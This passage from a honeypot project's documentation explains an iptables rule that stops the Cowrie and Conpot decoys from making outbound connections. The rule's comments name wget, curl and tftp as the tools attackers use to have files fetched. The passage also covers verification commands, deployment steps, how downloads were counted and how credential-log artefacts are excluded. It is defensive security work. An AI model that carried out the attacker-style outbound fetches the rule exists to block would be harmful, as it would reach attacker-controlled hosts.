29 September 2026 it produced **81 successful fetches and 72 failures — 153
outbound connections to 8 distinct hosts** — and 33 distinct fetched files. Full
account in `docs/rules-of-engagement.md` under *The outbound download problem*,
including why the first version of this figure said 259 and 331.

Note what is *not* affected, because the distinction is the whole basis of this
rule. Files an attacker pushes over SCP, or writes with a shell redirection, need
no outbound connection at all, and they continue after the block, correctly.
Re-derived from the database at **29 September 2026, 15:40 UTC**:

| | events | sessions | distinct files |
|---|---|---|---|
| Shell redirection captured (no `url`) | 192 | 108 | 8 |
| Fetched by us (`url` present) — OUTBOUND | 153 | 48 | 33 |
| Pushed over SCP | 87 | 15 | 26 |
| **Inbound combined** | **279** | **118** | **34** |

Two things in that table are easy to get wrong. **The session counts do not
add.** 108 and 15 make 123, but only 118 sessions are distinct: five sessions
both pushed a file and wrote one with a redirection. An earlier version of this
note said *261 events across 112 sessions*, which was this same figure computed
four hours earlier — stale rather than wrong, and the reason every figure here
now carries a timestamp.

**48 sessions attempted an outbound fetch; 33 of them got a file.** Quoting 33
as the number of sessions that tried is the same error in miniature — it is the
number that succeeded.

Cowrie logs all three under the same
`cowrie.session.file_download` event name and only the network fetches carry a
`url` field. Anything that counts these together will overstate the problem —
the first version of this note did, by a factor of three.

**Anyone reproducing this build and measuring its outbound traffic should filter
on `url` before quoting a number.** That single field is the difference between
"the sensor made 331 outbound connections" and "the sensor made 153", and the
larger figure was published here before anyone looked at the rows behind it.

### Why not in `cowrie.cfg`

There is no configuration switch that disables it. The nearest-looking option is
a trap: `download_limit_size = 0` means **no limit**, not no downloads. Even a
size limit would not help, because the connection is opened before the size is
known.

A configuration setting is also the wrong layer for a rule the project states as
absolute. It covers the commands somebody thought of, survives only until a
Cowrie upgrade reintroduces the behaviour, and is trusted rather than verified.
A packet filter covers every command, including ones not yet written.

### The rule

In `/etc/ufw/before.rules`, immediately after the existing
`-A ufw-before-output -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT`:

```
# Deception Grid: the decoys must never initiate an outbound connection.
# Cowrie emulates wget, curl and tftp by actually fetching the file an
# attacker names, which means connecting to attacker-controlled hosts.
# 81 such outbound fetches (33 sessions, 33 distinct files) happened between
# 25 and 29 September 2026 before it was noticed. Replies to attackers are
# ESTABLISHED and accepted by the rule above; only connections the decoy
# users start are rejected.
# uid 1001 = cowrie, uid 1002 = conpot. Conpot also reached out on startup,
# fetching its own public address, until [fetch_public_ip] was disabled --
# this makes that a fact rather than a statement of intent.
-A ufw-before-output -m owner --uid-owner 1001 -j REJECT --reject-with icmp-port-unreachable
-A ufw-before-output -m owner --uid-owner 1002 -j REJECT --reject-with icmp-port-unreachable
```

Then `sudo ufw reload`.

**Placement is the whole thing.** The rule must sit *below* ufw's existing
accepts for loopback and for `RELATED,ESTABLISHED`. Above them, the same line
stops Cowrie replying to attackers at all and the honeypot silently stops
answering the door — a failure that looks like no traffic rather than like a
broken firewall, which is the worst kind.

`1001` and `1002` are the `cowrie` and `conpot` uids on this machine. Check
yours with `id -u cowrie; id -u conpot` rather than copying the numbers.

### It blocks deployment too, which is how we know it is real

An hour after the rule was extended to `conpot`, a routine deployment step
failed:

```
$ sudo -u conpot curl -fsS -o .../modbus.toml https://raw.githubusercontent.com/...
curl: (7) Failed to connect to raw.githubusercontent.com port 443 after 0 ms
```

The identical command, run as the same user earlier the same afternoon, had
worked. Nothing about GitHub changed; uid 1002 is simply no longer allowed to
open an outbound connection, and `after 0 ms` is the local REJECT rather than a
network problem.

Worth recording for two reasons. It is an unplanned end-to-end proof that the
rule does what it claims — better evidence than the deliberate `curl` test,
because nobody set it up. And it changes the deployment procedure: **files
belonging to a decoy user are fetched as root and then handed over**, never
fetched by the decoy user itself.

```
sudo curl -fsS -o /home/conpot/templates/plant-plc/modbus.toml "$RAW_URL"
sudo chown conpot:conpot /home/conpot/templates/plant-plc/modbus.toml
```

The alternative — briefly lifting the rule to deploy — was rejected. A control
that gets switched off whenever it is inconvenient is not a control, and the
whole reason this is a packet filter rather than a configuration setting is that
a setting can be changed by anyone with a reason.

### The second decoy was not covered for four hours

The rule as first written named uid 1001 only. Conpot runs as its own user and
was therefore outside it — so between the OT decoy being installed and this
being noticed, `[fetch_public_ip] enabled = False` in `conpot.cfg` was the only
thing stopping the OT decoy making an outbound connection. It was doing its job;
it was also the only thing doing it, and the reason this project uses a packet
filter is precisely that a configuration setting can be changed, overwritten by
an upgrade, or simply be wrong without anything failing.

The lesson generalises past this rule: **a control written against a uid covers
one process, not a policy.** "The decoys never reach out" is a policy; uid 1001
was one instance of enforcing it. Any third decoy added later needs the same
line and nothing will remind anyone.

Recorded result, 29 September 2026, after adding 1002 and reloading:

```
-A ufw-before-output -o lo -j ACCEPT
-A ufw-before-output -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
-A ufw-before-output -m owner --uid-owner 1001 -j REJECT --reject-with icmp-port-unreachable
-A ufw-before-output -m owner --uid-owner 1002 -j REJECT --reject-with icmp-port-unreachable
-A ufw-before-output -j ufw-user-output

conpot -> https://example.com   curl (7), failed after 5 ms,  http_code 000
cowrie -> https://example.com   curl (7), failed after 0 ms,  http_code 000
aster  -> https://example.com   http_code 200
```

Two details in that output are worth keeping. The loopback and
`RELATED,ESTABLISHED` accepts are above both rejects, which is what keeps the
honeypots answering the door. And the failures come back in **0 to 5
milliseconds** rather than at the 8-second timeout — that is the signature of
`REJECT` rather than `DROP`. It matters for the decoy's behaviour, not just for
testing: an attacker's `wget` fails instantly, the way it would against a host
with no route, instead of hanging for the full timeout. A honeypot that stalls
for eight seconds on every download attempt is describing itself.

### Verify it, both ways

One test is not enough here: it has to block outbound *and* leave inbound
working.

```
# should fail -- exit code 7, no HTTP code
sudo -u cowrie curl -s -o /dev/null -w 'http_code=%{http_code}\n' http://example.com

# should print an SSH banner -- the honeypot still answering
timeout 5 bash -c 'exec 3<>/dev/tcp/127.0.0.1/22; head -c 40 <&3' | tr -d '\r'

# should print: active
sudo systemctl is-active cowrie

# the rule should be third in the chain, after lo and after ESTABLISHED
sudo iptables -L ufw-before-output -n -v --line-numbers
```

Recorded result on 29 September 2026: `http_code=000`, curl exit 7,
`SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3`, service active, rule at position 3.

### Check the rule syntax before reloading a live firewall

Reloading ufw while connected over SSH is worth doing carefully. The `owner`
match needs a kernel module, and if it is missing the reload fails rather than
the rule. Prove the kernel accepts the rule first, in a chain nothing uses:

```
sudo iptables -N dgtest
sudo iptables -A dgtest -m owner --uid-owner 1001 -j REJECT --reject-with icmp-port-unreachable \
  && echo 'RULE SYNTAX OK'
sudo iptables -F dgtest
sudo iptables -X dgtest
```

### Watch that it stays in place

`decoy-status` checks three things on every run: that the rule is present for
**both** decoy uids in `ufw-before-output`, separately, and that no url-bearing
fetch event has appeared since the block went in. The last is the one that
matters, because a rule can be present and ineffective — reading the rule is
intent, counting fetches is evidence.

Checking the two uids separately is not pedantry. The rule covered `cowrie` alone
for four hours after Conpot was installed, and a check that asked "is there an
owner-match rule?" would have answered yes throughout.

Do **not** watch this by counting files in `var/lib/cowrie/downloads/`. A first
version of the check did exactly that, against a baseline, and raised a false
alarm within the hour. That directory is not "downloads": attacker-pushed files
and captured shell redirections land there too, and keep landing whether or not
outbound is blocked, so the count rises forever. Redirection captures are also
named `redir_<uuid>` rather than by hash, so the file count exceeds the amount of
distinct content — **108 files against 67 distinct hashes at 29 September 2026
16:20 UTC**. Both numbers grow; the gap between them is the point, not the
values.

### What still gets captured

Cowrie logs `cowrie.session.file_download.failed` with the URL it was told to
fetch, so the infrastructure serving the payloads is still recorded. Only the
binaries stop arriving. Files pushed *to* the sensor over SCP were never
affected — that is inbound, and it is what the project is for.

### Keep the backup of the original

```
sudo cp -n /etc/ufw/before.rules /etc/ufw/before.rules.orig
```

Taken before the edit on 29 September 2026. `before.rules` is a distribution
file and a package upgrade may replace it, which would silently remove this
rule. **Re-check it after any `ufw` or kernel upgrade**, with the
`iptables -L ufw-before-output` command above.

## The exclusion rule, and how it got right

### What is excluded, and why

Four reasons and no others. Nothing is deleted — a row that should not count
gets a reason in the `excluded` column and stays queryable.

| Reason | Meaning |
|---|---|
| `loopback` | our own local testing, from 127.0.0.1 |
| `analyst` | a session from one of our own addresses |
| `artefact-command` | Cowrie's telnet handler read a stream of commands as login input and recorded it as a username/password pair |
| `artefact-binary` | a login row with no readable credential in it at all |

State the tally alongside any figure. **As at 29 September 2026, 16:10 UTC:**

| | rows |
|---|---|
| counts | 200,910 |
| `artefact-command` | 4,620 |
| `artefact-binary` | 142 |
| `loopback` | 57 |
| `analyst` | 15 |

34,257 password attempts, from 509 distinct sources.

### Five versions

**Version one** tested for a real NUL byte and matched **nothing**. Cowrie writes
a non-printable byte in a credential as the *literal text* of a C escape — the
four characters `\`, `x`, `0`, `0`. Verified rather than assumed:
`hex(username)` for the commonest pair is `656E61626C655C783030`, which is
`enable` followed by `5C 78 30 30`. Caught because the tool prints what it
excluded and the list came back empty.

**Version two** matched any `\xNN` escape and over-corrected, throwing out
`root/7ujMko0admin`, `root/founder88`, `root/blender` and
`telnetadmin/telnetadmin`. `7ujMko0admin` is a well-known camera default. Caught
by reading the excluded rows instead of trusting the total.

**Version three** accepted that the distinction is **semantic, not syntactic** —
`enable` and `blender` are the same shape to any pattern, so only a list of
console words separates a command from a password. It required both fields to
survive stripping and to be ASCII-printable.

**Version four** narrowed it, because version three excluded

```
username 'daemon\x00'    password ''
```

as binary. An empty-password probe is ordinary and `daemon` is a real account
name; the only odd thing about that row is a trailing null. One row changed.
Fixed anyway — being right about one row is the same discipline as being right
about two hundred.

Version four also **reintroduced a bug fixed hours earlier.** Its readability
test was `32 <= ord(c) < 127`, which rejects `Ω`, `ö`, Cyrillic and CJK — so a
real password containing any of them, in a field that also carried an escape,
would have been thrown out. That is exactly the defect that had been fixed by
moving the printability test inside the escape branch. It was caught only because
the regression suite asks about `root\x00` / `Ω` explicitly. The test now uses
`str.isprintable()`: the question is whether there are **control bytes**, not
whether the characters are ASCII.

**Version five** fixed the discriminator that version four got wrong. Compare two
rows from this sensor's own data:

```
'daemon\x00'      ''                         -> REAL
'\x1b\x11ECFF'    '\x1b\x13\x04\x1a\x1f\x18' -> ARTEFACT
```

Both have a username that survives stripping — `daemon` and `ECFF`. In the first
the password field is **genuinely empty in the log**, an ordinary probe. In the
second it was full of control bytes that stripped away to nothing. Version four
tested the *stripped* password for emptiness, which merges those two cases.

The second row is the one worth dwelling on. Version four shipped with a comment
naming terminal control sequences as a **known limitation that had never been
observed in this sensor's data**, and arguing that filtering against an imagined
pattern is how the earlier versions went wrong. That reasoning was sound. The
pattern then appeared in the real data within the hour, twice — and only because
the excluded list is printed on every run and somebody read it.

### The bug underneath all of it, and then the same bug again

Version five changed the rule and relabelled **nothing**.

`excluded` is computed when a row is inserted, and `INSERT OR IGNORE` never
touches a row it already holds. So the code said one thing and the database said
another, silently and indefinitely. The only way to notice was to read the
excluded list and see a row the current rule would have admitted.

The first fix recomputed `excluded` on every run. That was too narrow, and the
general case surfaced an hour later.

Conpot writes `"event_type": null` on its protocol records, so those rows had
been labelled `conpot.none`; the fix synthesised `conpot.modbus_request`
instead. Checking the database afterwards showed **both** labels present:

```
conpot.none            10    rows inserted before the fix
conpot.modbus_request   8    rows inserted after
```

Those ten rows also still held `input` as `b'00010000000601060000ffff'`, wrapper
and all, because the unwrapping is derived too. **Recomputing one column had
fixed one column.**

Every column except `raw` is derived. So every run now re-derives all of them —
`ts`, `eventid`, `sensor`, `session`, `src_ip`, `src_port`, `dst_port`,
`username`, `password`, `input`, `message`, `excluded` — from `raw`. `raw` is the
only authority in the database; everything else is a cache of what the current
code makes of it. It prints what moved, per column:

```
=== re-derived from raw against the current code ===
    2 rows updated
      column excluded        2 rows
      column eventid         1 rows
      column input           1 rows
      artefact-binary -> (counts)                       2
      conpot.none -> conpot.modbus_request              1
```

Two details that matter more than they look. **Which normaliser applies is
decided by the record's shape, not by the stored eventid** — a Cowrie record has
an `eventid` key and a Conpot record does not. Dispatching on the stored label
would mean trusting the value being recomputed. And the pass is **idempotent**:
a second run reports `nothing changed -- the database already matches the code`,
which is the only way to tell a working re-derivation from one that churns rows
every time.

A silent re-derivation would be the same class of problem as the bug it fixes.
Rebuilding from the logs would work too, but it discards the `runs` history, and
that history is the evidence the pipeline has been running.

The lesson is worth separating from the mechanism: **a derived value is only as
current as the last time it was derived.** Two of this project's bugs were code
changes that silently failed to reach data already stored, and the second
happened *after* the first had been diagnosed and written up.

### The audit trail

Two standing queries, deliberately pointing in opposite directions:

- **Query 3** — what the rule threw out, grouped by reason.
- **Query 12** — login rows that contain an escape and **still count**.

Query 12 exists because of version five. Reading it after the change showed the
rule behaving correctly on the rows that matter:

```
lghkel\x09   zpz}ld\x09          94     \x09 is TAB
zalee\x09    za\x09              94
root         founder88\x00\x00    2
root         7ujMko0admin\x00     1
root         \xef\xbb\xbf00099    1     byte-order mark, then the password
daemon\x00   ''                   1
```

`root/founder88` and `root/7ujMko0admin` are the rows version two wrongly
excluded. `lghkel` and `zalee` are odd strings, but bots try odd strings, and a
trailing tab does not make a credential an artefact.

**About six rows remain ambiguous**, where the text surviving the strip is itself
junk-like — `"??$` / `\x02\x1f\x1f\x04e``` leaves a password of `` e`` ``.
Against 34,257 attempts that is 0.02%, it changes no stated finding, and it is
left visible in query 12 rather than answered with a sixth rule written on six
rows.

### The rule this produced

Stated plainly, because it outlasts the code:

> **Before quoting a count, look at five of the rows it counts.**

Of the five versions above, three were found wrong by reading rows and none by
reading totals. Two of those three were found only because the tool prints its
own exclusions without being asked.

### Regression suite

Nineteen cases, run against every edit, and every one of them is a row observed
on this sensor or a specific defect a previous version had:

- the two rows that drove version five, `daemon\x00` and `\x1b\x11ECFF`
- the four real credentials version two wrongly excluded
- `root\x00` / `Ω`, which catches the ASCII regression
- CJK and umlauts alongside escapes
- console-word pairs, which must come out as `artefact-command` and not `binary`
- `root\x00` / `\x07\x08` — a password that was non-empty and strips to nothing,
  which must be an artefact, next to `daemon\x00` / `''`, which must not

## What is excluded from this repo

- **The machine's public address, and my own admin address.** A honeypot with
  a published address starts collecting people who came looking for a
  honeypot, instead of the background traffic of the internet. That would make
  the findings worth less. The address is in my notes, not in git.
- **The SSH private key**, which has never left the laptop that generated it.
- **The analyst's address list**, `analysis/exclude-ips.txt`. It is a record of
  one person's home IP addresses over time. `analysis/exclude-ips.txt.example`
  documents the format and the top-up command without the values.
- Anything uploaded to the decoys — see `.gitignore`. Much of it is live
  malware, and since it becomes live immediately, `.gitignore` had to be
  configured first.

## Teardown

Delete the resource group `deception-grid` — that contains the VM, disk, IP and
network rules together, which is why they were all put in one group to begin
with. The results database has to have been copied off the machine first,
committed here, and the copy confirmed to open. Scheduled for after demo day, so
12 December 2026.
